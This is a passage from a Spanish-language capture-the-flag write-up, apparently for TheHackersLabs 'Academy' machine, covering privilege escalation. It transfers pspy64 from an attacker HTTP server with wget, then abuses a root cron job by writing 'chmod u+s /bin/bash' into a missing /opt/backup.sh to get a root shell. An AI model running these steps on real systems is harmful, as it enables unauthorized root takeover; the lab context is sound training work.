 # 4- Escalada de privilegios

ya con la intrusión realizada y una consola mas estable es momento de escalar privilegios para ello en este caso voy a ser uso de la herramienta `pspy64` la descargo y ahora voy a preceder a enviarla a la maquina victima para ello monto un servidor por el puerto 80 en mi maquina atacante

Ejecutar este comando en la maquina atacante, en el directorio donde se guardó el archivo pspy64

```python
python3 -m http.server 80
```

Ahora es momento de descargar el archivo en la maquina victima para ello me voy a directorio /tmp el cual es perfecto para este tipo de acciones

ejecutar el siguiente comando en la maquina victima

```bash
wget 192.168.6.132/pspy64
```

con esto logré subir el archivo en la maquina victima ahora es momento de ejecutarlo, este programa muestra los procesos ejecutados por otros usuario sin necesidad de ser root, veo que se ejecuta un proceso llamado `backup.sh` en el directorio `/opt`

```bash
./pspy64
```

![007Academy.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/thehackerslabs/Academy/007Academy.png)

veo que tengo permisos de escritura en el directorio `/opt` procedo a revisarlo, me fijo que no existe el archivo backup.sh pero hay una tarea que lo ejecuta, por lo tanto voy aprovecharme de la tarea, ya que tengo permisos de escritura en el directorio voy a crear un archivo llamado `backup.sh` para que se ejecute y así poder escalar privilegios

procedo a crear el archivo con permisos SUID con el siguiente comando

```bash
echo 'chmod u+s /bin/bash' >> backup.sh
```

### Explicación del script anterior

Al establecer el bit SUID con `chmod u+s /bin/bash`, cualquier usuario que ejecute `/bin/bash` lo hará con los privilegios del propietario del archivo, que típicamente es el usuario `root`.

le doy permisos de ejecución

```bash
chomod +x backup.sh
```

Esperamos un par de minutos y ejecuto el comando

```bash
bash -p
```
